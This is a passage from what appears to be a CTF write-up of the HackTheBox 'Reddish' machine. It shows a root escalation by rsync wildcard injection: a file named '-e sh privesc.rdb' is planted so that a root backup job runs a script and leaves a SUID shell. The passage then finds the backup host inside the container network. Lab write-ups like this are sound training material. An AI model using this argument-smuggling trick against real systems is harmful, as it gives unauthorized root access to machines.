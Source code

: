 Now let’s create our malicious filename

```bash
cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b

touch -- "-e sh privesc.rdb"
```

Now after 3 minutes, we look in the tmp folder:

```bash
ls -l /tmp

total 128
-rw-r--r-- 1 www-data www-data     55 Oct 18 15:37 privesc.rdb
-rwsr-xr-x 1 root     root     125400 Oct 18 15:48 suid
```

Now let’s execute it:

```bash
./suid
```

![image.png]({{ site.baseurl }}/assets/reddish/image%2021.png)

Even though we are root, we are still on the container. 

From the backup command:

```bash
rsync -a *.rdb rsync://backup:873/src/rdb/
```

We know there is a backup server somewhere. Let’s look at our /etc/hosts file:

```bash
cat /etc/hosts

127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.19.0.4      www
172.20.0.3      www
```

It does not tell us. Let’s try pinging backup and see which IP address it goes:

```bash
ping -c1 backup

PING backup (172.20.0.2) 56(84) bytes of data.
64 bytes from reddish_composition_backup_1.reddish_composition_internal-network-2 (172.20.0.2): icmp_seq=1 ttl=64 time=0.042 ms

--- backup ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.042/0.042/0.042/0.000 ms
```
